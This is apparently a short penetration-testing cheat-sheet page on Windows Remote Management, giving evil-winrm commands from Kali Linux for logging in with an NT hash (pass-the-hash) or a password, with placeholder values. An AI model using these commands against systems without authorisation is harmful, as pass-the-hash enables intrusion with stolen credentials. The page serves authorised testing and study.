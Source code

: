 ```yaml
---
label: WinRM
---
```


# Windows Remote Managament (WinRM)

WinRM doesn't use RPC. All of the WinRM communication is over a single port instead of RPC which makes it pretty firewall friendly.

## Pass-the-Hash

Kali Linux:

```bash
evil-winrm -i @SERVER -u @USERNAME -H @NT_HASH
```

## Pass-the-Password

Kali Linux:

```bash
evil-winrm -i @SERVER -u @USERNAME -p @PASS
```
